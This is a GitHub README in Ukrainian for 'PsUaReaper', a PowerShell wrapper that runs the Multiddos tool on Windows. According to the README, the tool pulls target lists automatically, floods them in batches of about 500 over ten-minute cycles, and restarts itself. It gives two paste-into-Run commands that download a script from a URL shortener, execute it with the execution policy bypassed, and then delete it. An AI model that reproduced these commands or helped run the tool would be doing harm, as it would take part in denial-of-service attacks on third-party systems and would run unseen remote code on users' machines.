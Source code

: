# PsUaReaper
PowerShell-враппер для запуску Multiddos на Windows. 
- Не потребує інсталяції додатковий програм, все необхідне розташовується в C:\PsUaReaper
- Не потребує адміністративних прав для запуску
- Сумісніть з Windows 7 SP1
- Автоматичне оновлення цілей

Джерела натхнення:
[KarboDuck](https://github.com/KarboDuck)
[ahovdryk](https://github.com/ahovdryk)

## Перший старт:
1. Найлегший шлях для старих систем (Windows 7, 8, 8.1, 10 до білда 1803):
- Завантажити з офіційного репозиторію останню версію [PowerShell](https://github.com/PowerShell/PowerShell/releases/download/v7.2.4/PowerShell-7.2.4-win-x86.zip)
- Розпакувати архів в будь який каталог і запустити з нього <code>pwsh.exe</code>
- Виконати команду:
```
(new-object System.Net.WebClient).DownloadFile("https://tiny.one/jxr7yadn", "$env:tmp\setup.ps1"); &"$env:tmp\Setup1.ps1";ri "$env:tmp\Setup.ps1"
```
2. Windows 10 білд 1803 і новіше:
- Скопіювати команду
```
cmd.exe /c curl https://tiny.one/jxr7yadn -o setup.ps1 && powershell -executionpolicy bypass -file setup.ps1 && del setup.ps1
```
- Натиснути Win+R
- Вставити команду і натиснути Enter

## Важливі зауваження
(!) Наступні запуски можливі з файлу C:\PsUaReaper\Start.cmd</br>
(!) При старті відбувається пошук цілей зі списку KarboDuck</br>
(!) Скрипт працює тільки з унікальними цілям</br>
(!) Перевіряється оновлення PowerShell i Python скриптів</br>
(!) Список цілей розбивається на групи по 500 (+/-) і навантажується почергово протягом 10 хвилин</br>
(!) По завершенню циклу, скрипт зам себе перезапускає</br>
(!) Для завершення необхідно натиснути Ctrl+C</br>
